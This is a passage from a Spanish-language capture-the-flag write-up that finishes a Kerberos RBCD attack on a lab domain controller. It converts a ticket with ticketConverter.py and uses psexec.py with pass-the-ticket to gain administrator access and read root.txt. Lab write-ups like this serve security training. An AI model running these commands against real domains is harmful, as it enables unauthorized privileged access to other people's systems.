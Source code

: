 Utilizaremos **ticketConverter.py,** este comando convierte un ticket `kirbi` en un `ccache`, lo que permite su uso en diferentes entornos y herramientas que gestionan la autenticación Kerberos.

```bash
ticketConverter.py ticket.kirbi ticket.ccache
```

<figure><img src="../../../.gitbook/assets/880_vmware_s0XOfDqWa2.png" alt=""><figcaption></figcaption></figure>

En este comando, establecemos la variable de entorno `KRB5CCNAME` para que apunte al archivo de caché de tickets Kerberos (ticket.ccache), que contiene el ticket que obtuvimos anteriormente. Luego, ejecutamos **psexec.py**, lo que nos permite acceder a la máquina remota usando Kerberos para la autenticación (especificando -k), sin necesidad de proporcionar una contraseña (gracias a -no-pass).

Al especificar `support.htb/administrator@dc.support.htb`, logramos ejecutar comandos en el controlador de dominio con los privilegios del usuario administrator. Esto nos facilita el acceso a recursos y funciones del sistema con permisos elevados, culminando así el ataque RBCD de manera efectiva.

Comprobamos que ganamos acceso finalmente como usuario Administrador y obtenemos la flag de **root.txt**.

{% code overflow="wrap" %}
```bash
KRB5CCNAME=ticket.ccache psexec.py -k -no-pass support.htb/administrator@dc.support.htb
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/882_vmware_gROR0LTpic.png" alt=""><figcaption></figcaption></figure>
